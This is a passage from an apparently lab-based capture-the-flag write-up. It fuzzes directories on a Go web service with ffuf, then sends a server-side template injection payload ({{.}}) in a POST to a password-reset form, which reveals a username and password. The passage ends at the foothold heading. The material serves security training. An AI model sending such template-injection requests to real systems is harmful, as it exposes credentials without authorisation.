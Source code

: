 ffuf:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.11.113:8080/FUZZ -fs 1752

forgot                  [Status: 301, Size: 43, Words: 3, Lines: 3, Duration: 20ms]
http%3A%2F%2Fwww        [Status: 301, Size: 45, Words: 3, Lines: 3, Duration: 31ms]
http%3A%2F%2Fyoutube    [Status: 301, Size: 49, Words: 3, Lines: 3, Duration: 35ms]
http%3A%2F%2Fblogs      [Status: 301, Size: 47, Words: 3, Lines: 3, Duration: 41ms]
http%3A%2F%2Fblog       [Status: 301, Size: 46, Words: 3, Lines: 3, Duration: 19ms]
**http%3A%2F%2Fwww      [Status: 301, Size: 51, Words: 3, Lines: 3, Duration: 21ms]
http%3A%2F%2Fcommunity  [Status: 301, Size: 51, Words: 3, Lines: 3, Duration: 26ms]
http%3A%2F%2Fradar      [Status: 301, Size: 47, Words: 3, Lines: 3, Duration: 30ms]
http%3A%2F%2Fjeremiahgrossman [Status: 301, Size: 58, Words: 3, Lines: 3, Duration: 34ms]
http%3A%2F%2Fweblog     [Status: 301, Size: 48, Words: 3, Lines: 3, Duration: 33ms]
http%3A%2F%2Fswik       [Status: 301, Size: 46, Words: 3, Lines: 3, Duration: 32ms]
```

We know that golang might be susceptible to Server Side Template Injection: https://dev.to/pirateducky/ssti-method-confusion-in-go-517p, https://onsecurity.io/article/go-ssti-method-research/, https://blog.takemyhand.xyz/2020/06/ssti-breaking-gos-template-engine-to

The `{{` escapes HTML and prints the data struct.

In the /forgot dir, let’s try sending our injection:

```bash
{{ . }}
```

```bash
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://10.10.11.113:8080
Connection: keep-alive
Referer: http://10.10.11.113:8080/forgot/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email={{.}}
```

Response:

![image.png]({{ site.baseurl }}/assets/gobox/image%203.png)

We get the user and password.

## Foothold
